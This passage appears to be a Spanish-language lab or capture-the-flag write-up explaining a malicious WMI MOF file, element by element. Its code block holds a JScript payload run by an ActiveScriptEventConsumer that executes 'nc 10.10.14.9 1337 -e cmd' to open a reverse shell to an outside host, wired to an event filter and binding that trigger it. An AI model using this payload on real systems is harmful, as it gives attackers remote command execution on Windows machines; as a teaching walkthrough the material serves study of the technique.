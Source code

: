 ```ruby
  Name = "ASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\ntry {var s = new ActiveXObject(\"Wscript.Shell\");\ns.Run(\"nc 10.10.14.9 1337 -e cmd\");} catch (err) {};\nsv = GetObject(\"winmgmts:root\\\\cimv2\");try {sv.Delete(\"MyClass7910\");} catch (err) {};try {sv.Delete(\"__EventFilter.Name='instfilt'\");}>

};

instance of __EventFilter as $Filt
{
  Name = "instfilt";
  Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \"MyClass7910\"";
  QueryLanguage = "WQL";
};

instance of __FilterToConsumerBinding as $bind
{
  Consumer = $cons;
  Filter = $Filt;
};

instance of MyClass7910 as $MyClass
{
  Name = "ClassConsumer";
};

```
A continuación daré una breve explicación de cada elemento dentro del archivo MOF en orden de aparición:

1. <p style="font-size: 16px;">Primero se define una clase <span style="color: blue">"MyClass7910"</span>, La función principal de esta clase es implementar un evento basado en scripts que se activa cuando se crea una instancia de la misma y <strong>ejecuta</strong> un script de <strong>JScript</strong> que  <strong>realiza ciertas acciones</strong></p>

2. <p style="font-size: 16px;">La clase <span style="color: blue;">"ActiveScriptEventConsumer"</span> está diseñada para <strong>ejecutar</strong> un <strong>script</strong> en respuesta a un <strong>evento</strong>. En este caso, el script a ejecutar se especifica en la propiedad <span style="color: gray;">'ScriptText'</span> que contiene el texto del script(nuestro payload) que se ejecutará en respuesta a el evento</p>

3. <p style="font-size: 16px;">La línea <span style="color: blue;">"instance of __Win32Provider as $P"</span> crea una instancia de un <strong>proveedor</strong> de administración de Windows y la asigna a la variable "$P." </p>

4. <p style="font-size: 16px;">Se crea la instancia de la clase <span style="color: blue;">"__EventConsumerProviderRegistration"</span>.</p>

5. <p style="font-size: 16px;">Se crea la Instancia de la clase<span style="color: blue;">"ActiveScriptEventConsumer"</span>.</p>

6. <p style="font-size: 16px;">Se crea la instancia de la clase <span style="color: blue;">"__EventFilter"</span> llamada "$Filt" que se utiliza como un filtro de eventos. Esta instancia de filtro está configurada para capturar eventos de creación de instancias de la clase "MyClass7910" en el sistema. Cuando se produzca un evento de creación de una instancia de "MyClass7910," este filtro capturará ese evento específico y lo procesará según lo configurado en el código.</p>
